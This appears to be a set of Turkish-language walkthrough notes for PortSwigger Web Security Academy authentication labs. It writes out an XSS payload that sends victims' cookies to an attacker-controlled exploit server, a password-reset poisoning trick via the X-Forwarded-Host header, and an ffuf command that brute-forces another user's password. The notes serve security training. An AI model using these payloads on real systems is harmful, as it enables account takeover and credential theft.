 ```
    response = r.get(url=url,headers=headers,cookies=cookies)
    print(f'sending get with: {i}, response time: {response.elapsed}, statuse code: {response.status_code}, size: {len(response.content)}')
    if 'your username is: carlos' in response.text:
        print(f'successful: {i}')
        succ = i
        break

print(base64.b64decode(succ))
```

#### 10.Lab: Offline password cracking

Bir önceki labdaki aynı cookie mantığı var
- comment kısmında XSS açığı var
- denemek için `<script>alert(10)</script>` yazıp yüklüyoruz sayfayı tekrar istediğimizde alert geliyor
- ardından `<script>document.location='exploit-0a5f004904163aea80530c1a013800df.exploit-server.net/'+document.cookie</script>`
- scriptini giriyoruz
- exploit server da `10.0.4.58 2025-04-30 11:27:23 +0000 "GET/secret=X4DXSfy3JFGdLW9LSEAhzCZpqbAOzmKq;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` gibi bir ibare çıkıyor
- bunu decode ettiğimizde şifre `onceuponatime` çıkıyor
- giriş yaparak siliyoruz hesabı

#### 11.Lab: Password reset poisoning via middleware

- Post /forgot-password isteğinde X-Forwarded-Host başlığının desteklendiğini görüyoruz
- Bu başlığı ekleyip değerini exploit server linkimizi koyuyoruz:
- `exploit-0a2a009f03674a4d810f8329012000f7.exploit-server.net`
- Ardından username değerini carlos olarak değiştiriyoruz ve gönderiyoruz
- Exploit serverdan loglara baktığımızda carlos adına bir token görünüyor `c6kheysd5kboz3im5axe8o3l3cpbrkd6`
- bu tokeni daha önceden hazırladığımız `https://0ac6006803944a59811c845e00a0000e.web-security-academy.net/forgot-password?temp-forgot-password-token=c6kheysd5kboz3im5axe8o3l3cpbrkd6` linkindeki token kısmına yaerleştiriyoruz.
- password reset sayfasında carlosun şifresini değiştirip onun hesabına giriş yapıyoruz
- Voila Lab Solved.


#### 12.Lab: Password brute-force via password change

Labda şifre değiştirme mekaniğinde brute-force uygulanabilir olduğu söyleniyor.
- wiener:peter değerleri ile giriş yap
- şifre değiştirme durumlarını dene
	- önceki şifre uymayıp sonraki şifreler uyarsa giriş ekranına tekrar dönülür
	- önceki şifre yanlışsa, yeni şifreler de uymazsa birbirine 'Current password is incorrect' mesajı verilir
	- önceki şifre doğruysa ve yeni şifreler birbirine uymazsa 'New passwords do not match' mesajı verilir
- Bu şartları göze alarak aşağıdaki ffuf komutu girilirse şifre bulunur

```
ffuf -w ./Passwords/PortSwiggerPasswords.txt -u https://0a1800af0367606984a2bed600e8009e.web-security-academy.net/my-account/change-password -d 'username=carlos&current-password=FUZZ&new-password-1=boiler&new-password-2=toilet' -b 'session=Kz8mN1KZfQgSf3E4kQxK4r9OyYWvJ39V; session=EQcfc7vVvUYU9Qld6Qh7eeftQ1A5O5j1' -fr 'incorrect'
```
